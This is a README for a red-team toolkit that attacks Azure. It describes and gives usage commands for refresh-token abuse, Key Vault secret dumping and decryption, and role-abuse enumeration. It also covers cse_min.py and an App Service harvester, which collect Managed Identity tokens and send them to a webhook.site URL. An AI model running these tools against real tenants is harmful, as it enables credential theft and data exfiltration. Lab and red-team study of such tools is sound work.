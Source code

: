 # 🔓 azure-insecurity-tools

**A growing collection of offensive Azure tools and scripts** designed to support cloud red teaming, lab work, and deep exploration of Microsoft cloud internals.

---

## 📦 What's Inside

This repo will evolve as I learn more about attacking Azure. The focus is hands-on, practical tooling for real-world and lab scenarios.

### ✅ Initial Tool: `token_multiplexer.py`

Use a single `refresh_token` to mint multiple `access_token`s across different Azure resource scopes (Graph, Key Vault, ARM, etc).

#### Features
- Exchanges refresh tokens for any `.default` scoped resource
- Decodes JWT and extracts `aud`, `scp`, and `exp` claims
- Built as a CLI for flexible reuse
- Useful in phishing/OAuth abuse scenarios like AzRTE labs

#### Example Usage
```bash
python token_multiplexer.py \
  --refresh-token "<paste_here>" \
  --client-id "your-app-client-id" \
  --client-secret "your-app-client-secret" \
  --scope "https://vault.azure.net/.default"
```

### 🔑 kv-dump-old-versions.py — Enumerate and Dump Azure Key Vault Secret Versions

This script enumerates secrets in Azure Key Vaults and retrieves all available versions, including old values that might remain after rotation.

#### Features
- Works on a single vault or all vaults in a subscription.
- Dumps all secret versions with flags for which one is latest.
- Supports table view (human-friendly) and JSON output (machine-friendly).
- Flags old values that differ from the latest version.

#### Usage
```bash
# Enumerate all vaults in a subscription
python3 kv-dump-old-versions.py --subscription-id <subscription-id>

# Target a specific vault and output as JSON
python3 kv-dump-old-versions.py --vault kv-1-2e693029 --output json
```

### 🔢 kv-rsa-decrypt.py

Tries common RSA algorithms against a given Key Vault key ID. Uses `az` under the hood to leverage existing logon.

#### Usage
```bash
python3 kv-rsa-decrypt.py \
  --key-id "https://kv-2-xxxx.vault.azure.net/keys/key-2-xxxx/<version>" \
  --ciphertext-b64 "G067ensX6Zgz...=="  # full base64 blob

# or force a specific algo:
python3 kv-rsa-decrypt.py --key-id ... --ciphertext-b64 ... --algo RSA-OAEP
```

### 🗑️ kv-recover-deleted.py

List and recover deleted secrets for a vault.

#### Usage
```bash
python3 kv-recover-deleted.py --vault kv-3-2e693029
python3 kv-recover-deleted.py --vault kv-3-2e693029 --recover-all
```

### 🔍 role-attack-surf.py

- Lists your role assignments at a given scope (vault/RG/subscription)
- Pulls each role definition
- Flags interesting Actions/DataActions (stuff that tends to be abusable)
- Prints a summary + optional JSON
- Suggests quick exploits (e.g., `set-policy` when it sees `accessPolicies/write`)

#### Usage
```bash
# At a vault scope (like your lab)
python3 role-attack-surf.py \
  --scope "/subscriptions/<sub>/resourceGroups/key-vault-labs/providers/Microsoft.KeyVault/vaults/<vault>"

# Filter to your SP only (faster to read)
python3 role-attack-surf.py \
  --scope "/subscriptions/<sub>/resourceGroups/key-vault-labs/providers/Microsoft.KeyVault/vaults/<vault>" \
  --assignee <client_id>

# Dump full JSON too
python3 role-attack-surf.py --scope "/subscriptions/<sub>" --json
```

### ﹟psenc.py

Output PowerShell `-EncodedCommand` string given a file, command, or stdin.

#### Usage
```bash
# direct command
python3 psenc.py -c 'Write-Host "Hello from Mac!"' --print-example

# from a file
python3 psenc.py -f payload.ps1 > encoded.txt

# from stdin (handy in pipelines)
echo '$PSVersionTable.PSVersion' | python3 psenc.py --stdin
```

### 🕸️ cse_min.py

Trigger the Azure CustomScriptExtension on a Windows VM to run a PowerShell payload that collects Managed Identity tokens (ARM + Key Vault) and exfiltrates them to a specified webhook.

#### Usage
```bash
# basic usage (System-Assigned MI)
python3 cse_min.py -g <resource-group> -n <vm-name> -w https://webhook.site/<uuid>

# with User-Assigned Managed Identity client ID
python3 cse_min.py -g <resource-group> -n <vm-name> \
    -w https://webhook.site/<uuid> \
    --uami <user-assigned-mi-client-id>

# dry run (show PowerShell and encoded command without sending)
python3 cse_min.py -g <resource-group> -n <vm-name> -w <webhook-url> --show
```

**This will:**
1. Build the PowerShell payload to grab ARM + Key Vault access tokens via IMDS.
2. Encode it to UTF-16LE Base64 for `-EncodedCommand` execution.
3. Deploy it to the target VM via Azure CLI `az vm extension set` with `CustomScriptExtension`.
4. POST results to the given webhook.

### 📦 az-vars.sh

Extracts and exports key Azure resource identifiers and settings from JSON CLI output into shell variables for quick reuse in pentest or automation workflows.

#### Usage
```bash
# Pipe Azure CLI JSON output into script
az postgres flexible-server list -o json | bash az-vars.sh

# Or execute directly if marked executable
az postgres flexible-server list -o json | ./az-vars.sh
```

**This will:**
1. Parse JSON input from stdin (e.g., `az <resource> list -o json`).
2. Extract commonly used fields like `id`, `name`, `resourceGroup`, `location`, `fqdn`.
3. Export each as an environment variable (e.g., `$AZ_NAME`, `$AZ_RG`).
4. Print them in `VAR=value` form for quick copy/paste into other commands.

---

## 🛠 Additional Tools

### appservice-harvest

Deploy a custom container to Azure App Service to harvest Managed Identity tokens and optionally execute remote commands.

- Supports System-Assigned and User-Assigned MIs
- Collects ARM + Key Vault tokens
- Exfiltrates via a configurable webhook URL

**See:** [`appservice-harvest/README.md`](./appservice-harvest/README.md) for full details, setup, and usage instructions.

--- 

### 📄 task-kv.yaml

A simple ACR task template that leverages an MI's access to Key Vault to exfil secrets via echo into build logs

---


⚠️ **Disclaimer**  
For educational and lab use only.  
Do not use these tools without explicit permission. They are intended to support self-hosted labs, CTF environments, and ethical security testing.
